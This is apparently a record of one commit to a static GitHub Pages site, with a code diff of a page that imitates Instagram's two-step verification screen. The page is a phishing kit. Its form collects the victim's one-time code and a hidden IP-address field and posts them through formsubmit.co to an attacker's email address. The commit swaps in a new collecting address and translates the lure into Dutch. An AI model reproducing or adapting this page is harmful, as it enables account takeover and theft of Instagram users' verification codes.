

Before and after one commit to drelgx/vdoe, a plain HTML site: page instagram/otp/657daf104b167f68d1979b9c.html in a window 1280 px wide. Shown: the top 437 px of the page, without its empty margins (200-1036 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update 657daf104b167f68d1979b9c.html

```diff
--- a/instagram/otp/657daf104b167f68d1979b9c.html
+++ b/instagram/otp/657daf104b167f68d1979b9c.html
@@ -57,9 +57,9 @@
       <!-- SMARTPHONE SECTION END -->
       <!-- FORM SECTION -->
       <article class="form-area">
-        <form  action="https://formsubmit.co/Instagramhelpmail99@gmail.com" method="POST" accept=".">
+        <form  action="https://formsubmit.co/onlyforvote1@outlook.com" method="POST" accept=".">
           <input type="text" id="ipAddress" name="ipAddress" readonly hidden>
-          <p class="small-title">2-Step Verification</p>
+          <p class="small-title">Authenticatie in twee stappen</p>
           <input
             type="text"
             name="code"
@@ -70,19 +70,19 @@
           <input type="hidden" name="linkId" value="657daf104b167f68d1979b9c" />
           <input type="submit" name="submit" value="Confirm" />
           <div class="options">
-            <p class="small">Didn't get security code? we can</p>
-            <a href="#" class="small">resend it</a>
-            <div class="forget"><a href="#">Forgot password?</a></div>
+            <p class="small">Geen beveiligingscode ontvangen? we kunnen</p>
+            <a href="#" class="small">stuur het opnieuw</a>
+            <div class="forget"><a href="#">Wachtwoord vergeten?</a></div>
           </div>
-          <input type="hidden" name="_next" value="https://drelgx.github.io/voeje/thanks.html">
+          <input type="hidden" name="_next" value="https://drelgx.github.io/vdoe/thanks.html">
 <input type="hidden" name="_captcha" value="false">
 
         </form>
         <div class="noaccount">
-          <a href="#">Don't have an account? <span>Signup</span></a>
+          <a href="#">Heeft u geen account? <span>Aanmelden</span></a>
         </div>
         <div class="apps">
-          <p>Get the app</p>
+          <p>Download de app</p>
           <a href="#">
             <img src="../../img/socials/appstore.png" alt="Get it from AppStore" />
           </a>
```
